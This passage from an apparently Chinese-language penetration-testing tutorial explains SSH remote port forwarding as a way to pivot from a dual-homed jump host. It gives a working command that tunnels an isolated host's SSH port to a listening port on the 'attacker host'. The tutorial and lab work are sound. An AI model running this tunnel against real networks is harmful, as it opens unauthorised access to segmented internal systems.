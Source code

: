 [![](assets/1708095858-eeca8adabcfba49e4ccfbb3ec31ab049.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230502203517-cb751ee2-e8e5-1.png)

#### 远程端口转发

SSH 远程端口转发（Remote Port Forwarding）将远程计算机上的端口映射到本地计算机上的端口的技术。

1、跳板机（双网卡）上执行命令，利用 ssh 建立隧道，将 192.168.20.200 的 22 端口流量转发至攻击者主机 192.168.11.137 的 2222 端口上，隧道建立后，可通过攻击者主机的 2222 端口访问隔离网段 192.168.20.200 的 22 端口，实现跨网段访问。注意此处的 ssh 密码为攻击者 192.168.11.137 主机的 ssh 密码。

```bash
ssh -R [远程主机端口]: [目标主机]: [目标主机端口] [攻击者主机]
ssh -R 2222:192.168.20.200:22  root@192.168.11.137
```

[![](assets/1708095858-784a6543a9813c8e7a6c69178ceb2b0d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230502203525-d004f130-e8e5-1.png)

攻击者主机 2222 端口正在监听

[![](assets/1708095858-672a909700250f09458ed8f7cf8c1462.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230502203531-d36c926a-e8e5-1.png)
